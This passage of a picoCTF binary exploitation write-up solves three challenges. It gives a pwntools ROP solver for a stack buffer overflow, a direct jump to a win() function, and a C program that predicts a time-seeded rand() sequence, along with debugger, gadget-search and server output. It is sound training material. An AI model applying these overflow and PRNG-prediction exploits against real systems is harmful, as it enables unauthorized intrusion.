04:0020│     0x7fffffffde58 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
05:0028│     0x7fffffffde60 ◂— 'kaaaaaaalaaaaaaamaaa'
06:0030│     0x7fffffffde68 ◂— 'laaaaaaamaaa'
07:0038│     0x7fffffffde70 ◂— 0x7f006161616d /* 'maaa' */

pwndbg> cyclic -o faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

To find the gadget we will use Ropper.

```bash
➜  Local Target git:(main) ✗ ropper -f ./local-target --search "pop rbp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rbp

[INFO] File: ./local-target
0x000000000040140b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040140f: pop rbp; pop r14; pop r15; ret; 
0x000000000040121d: pop rbp; ret; 
```

#### Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'

fname = './local-target' 

LOCAL = False

if LOCAL:
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)

e = ELF(fname)

pop_rbp = 0x40121d
writable_seg = e.address + 0x4500 

r.sendline(b'A'*40 + p64(pop_rbp) + p64(writable_seg) + p64(e.sym.main + 125))
r.recvlines(4)
print(f'Flag --> {r.recvline_contains(b"pico").strip().decode()}')
```

```bash
➜  Local Target git:(main) ✗ python solver.py saturn.picoctf.net 58639
[+] Opening connection to saturn.picoctf.net on port 58639: Done
[*] '/home/w3th4nds/github/Pico-CTF-Practice/Binary-Exploitation/Local Target/local-target'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
Flag --> picoCTF{XXX}
[*] Closed connection to saturn.picoctf.net port 58639
```

### Picker IV

Download the program and `cat` its content.

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

The program jumps to the address given and there is a `win()` function. We simply give the address of win and get the flag.

```bash
➜  Picker IV git:(main) ✗ nc saturn.picoctf.net 52791
Enter the address in hex to jump to, excluding '0x': 40129e
You input 0x40129e
You won!
picoCTF{XXX}
```

### seed-sPRiNG

Download the file and open it in `ghidra`.

```c
undefined4 main(void)

{
  uint local_20;
  uint randomia;
  uint rtime;
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  puts("");
  puts("");
  puts("                                                                             ");
  puts("                          #                mmmmm  mmmmm    \"    mm   m   mmm ");
  puts("  mmm    mmm    mmm    mmm#          mmm   #   \"# #   \"# mmm    #\"m  # m\"   \"");
  puts(" #   \"  #\"  #  #\"  #  #\" \"#         #   \"  #mmm#\" #mmmm\"   #    # #m # #   mm");
  puts(
      "  \"\"\"m  #\"\"\"\"  #\"\"\"\"  #   #          \"\"\"m  #      #   \"m   #    #  # # #    #"
      );
  puts(" \"mmm\"  \"#mm\"  \"#mm\"  \"#m##         \"mmm\"  #      #    \" mm#mm  #   ##  \"mmm\"");
  puts("                                                                             ");
  puts("");
  puts("");
  puts("Welcome! The game is easy: you jump on a sPRiNG.");
  puts("How high will you fly?");
  puts("");
  fflush(_stdout);
  rtime = time((time_t *)0x0);
  srand(rtime);
  local_14 = 1;
  while( true ) {
    if (0x1e < local_14) {
      puts("Congratulation! You\'ve won! Here is your flag:\n");
      fflush(_stdout);
      get_flag();
      fflush(_stdout);
      return 0;
    }
    printf("LEVEL (%d/30)\n",local_14);
    puts("");
    randomia = rand();
    randomia = randomia & 0xf;
    printf("Guess the height: ");
    fflush(_stdout);
    __isoc99_scanf(&DAT_00010caa,&local_20);
    fflush(_stdin);
    if (randomia != local_20) break;
    local_14 = local_14 + 1;
  }
  puts("WRONG! Sorry, better luck next time!");
  fflush(_stdout);
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

The program is pretty straighforward. As we can see, the program calls `srand(time(0));` and then in every loop, it calls `rand()`. From the `man` page of `srand`.

```c
DESCRIPTION
       The  rand()  function returns a pseudo-random integer in the range 0 to RAND_MAX inclusive (i.e., the mathematical range
       [0, RAND_MAX]).

       The srand() function sets its argument as the seed for a new sequence  of  pseudo-random  integers  to  be  returned  by
       rand().  These sequences are repeatable by calling srand() with the same seed value.

       If no seed value is provided, the rand() function is automatically seeded with a value of 1.
```

`time(0)` gives the time in seconds since the Unix epoch,  which is a pretty good  "unpredictable" seed (you're guaranteed your  seed will be the same only  once, unless you start your program multiple times within the same  second). So, we can actually predict the  sequence of numbers using the same seed in our exploit. If we do it `30` times, we can call `get_flag()`.

We can make a solver in `c` to produce the same pseudo frequency.

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main(){
	srand(time(0));
	for (size_t i = 0; i < 30; i++ ) printf("%d ", rand() & 0xf);
	return 0;
}
```

We run this and get the flag.

```bash
gcc -o solver main.c && ./solver | nc jupiter.challenges.picoctf.org 34558
```

